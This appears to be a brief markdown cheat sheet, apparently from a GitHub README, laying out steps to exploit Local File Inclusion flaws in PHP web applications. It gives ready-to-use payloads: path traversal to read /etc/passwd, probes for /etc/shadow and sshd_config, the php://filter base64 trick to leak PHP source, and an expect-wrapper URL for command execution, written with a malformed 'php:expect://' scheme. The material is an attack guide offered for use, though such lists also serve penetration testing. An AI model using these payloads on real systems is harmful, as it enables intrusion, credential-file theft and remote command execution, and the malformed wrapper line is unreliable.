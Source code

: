 ## Local File Inclusion

### Exploitation Fases

#### 1. Recognization

**Found an LFI in this context?**

```
http://domain.extension/example.php?parameter=post.php
```

*POC - try out*

```
http://domain.extension/example.php?parameter=../../../etc/passwd
```

**If returns passwd contents go further, if not don't try advanced techniques. Just go on**

#### 2. Exploitation

check out if you can reach any of these files:

```
/etc/ssh/sshd_config
/etc/shadow
/<any_403_forbidden_file>
/<weird_plugin_folder>
```

#### 3. Turning LFI into readable php files

- Is the backend PHP?

try this

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=fileyouwhishtoread.php
```

**if this works use the expect filter**

```
http://example.com/index.php?page=php:expect://<command-url-encoded>
```

returning command prompt data!

*Source*

https://github.com/payloadbox/rfi-lfi-payload-list

